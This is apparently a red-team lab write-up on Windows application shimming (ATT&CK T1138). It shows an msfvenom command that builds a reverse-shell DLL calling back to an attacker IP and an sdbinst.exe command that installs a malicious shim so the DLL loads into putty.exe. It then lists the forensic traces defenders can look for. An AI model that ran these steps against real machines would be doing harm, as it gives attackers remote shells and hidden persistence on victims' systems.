









# T1138: Application Shimming

## Execution

In this lab, [Compatibility Administrator](https://www.microsoft.com/en-us/download/details.aspx?id=7352) will be abused to inject a malicious payload into putty.exe process, which will connect back to our attacking machine.

Generating malicious payload stored in a 32-bit DLL:


```csharp
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil32.dll
```


Creating a shim fix for putty.exe - this is the "fix" that will get our malicious DLL injected into putty.exe when it is launched next time:







Installing the shim fixes database we created earlier onto the victim machine using a native windows utility:


```csharp
sdbinst.exe C:\experiments\mantvydas.sdb
```


Launching putty.exe on the victim machine, sends us our reverse shell - DLL injection worked:



## Observations

We can see putty.exe has loaded the evil32.dll:



Note, however, immediately after executing the payload, evil32.dll cannot be observed in the loaded system DLLs:



The sdbinst.exe leaves the following behind:

* fix name "mantvydas" \(we set it in the first step of the shim fix creation\) in the "Installed applications" list
* the fix db itself gets copied over to `%WINDIR%\AppPatch\custom OR %WINDIR%\AppPatch\AppPatch64\Custom`
* registry key pointing to the custom fixes db gets added

All of the above can be seen here:



Note that it is possible to install the shim fixes manually without leaving the trace in the "Installed applications" list, however the fixes db will still have to be written to the disk and the registry will have to be modified:



Correlate it with other events exhibited by the application that has been fixed and you may see something you might want to investigate further:



## References





